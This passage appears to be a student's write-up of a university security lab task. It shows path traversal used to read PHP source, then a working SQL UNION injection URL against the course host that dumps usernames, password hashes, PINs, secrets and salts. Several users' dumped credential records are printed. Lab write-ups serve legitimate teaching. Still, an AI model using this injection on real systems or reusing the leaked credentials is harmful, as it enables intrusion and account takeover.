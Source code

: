 We are in.

## Task 4: Exfiltrate a list of all usernames, passwords, salts, secrets and pins

I explore the website. I immediately see path traversal so I look at php source code via this url `https://kbe.felk.cvut.cz/index.php?open=index.php`. I read backend source code and I see another vulnerable sql query inside url argument *offset*. I crafted following injection:

"""
https://kbe.felk.cvut.cz/index.php?offset=1 UNION SELECT CONCAT(username, "-", password, "-", pin, "-", secret, "-", salt), 1 FROM users
"""

Second returned column is used in some xor encryption so I have to use only the first one. CONCAT does the job and separates final values using dash character. Later, I parsed the output in Python and these are the exfiltrated data. 

"""yaml
- username: komartom
  password: 2d55131b6752f066ee2cc57ba8bf781b4376be85
  pin: 7821
  secret: OQEBJKRVXKJIWBOC
  salt: kckct
- username: charvj10
  password: 284709bfe4fbf1aefec9482f34bcf03470d078bd
  pin: 9748
  secret: HT5MIVD2KADVOGXC
  salt: 4f093
- username: drimajak
  password: 1fea7f1395fe92eb4cf70f261c54a32a49e94914
  pin: 8693
  secret: OPWNDPUVYDD2NZ5Z
  salt: c6880
- username: forstluk
  password: c95cbbc323b039cbb8594f1e406163a8d8f05fc7
  pin: 8352
  secret: F4SZTF6JCSZIUJAS
  salt: b643c
- username: halasluk
  password: 4484b673dec9e7dcb54f40f752a0bdc830cc294f
  pin: 9380
  secret: VC63ZKWNJSNBJ36C
  salt: 5a1b8
- username: hereldav
  password: b6a69d59dd2313f6d1237f9e34ef68e466a1cdbe
  pin: 3541
  secret: UYQ3HCP7Q67OIONB
  salt: a0c58
- username: hlusijak
  password: 7010fd5fadaef60371cc8a65493aa5c4ac3be6c0
  pin: 3142
  secret: 6SJJJGVQ5ZMVX77K
  salt: 2e362
- username: hruskan1
  password: 4a90c2db5ab816ca36e23bdcfa51201a2fbd7808
  pin: 1496
  secret: QO2WCOGARO2DFLYC
  salt: 7aac6
- username: kadlej24
  password: e3fbf88139050fedaa655160b97000f5a165cacf
  pin: 1962
  secret: NKHLS45QURQYUVHB
  salt: 77a32
- username: landama2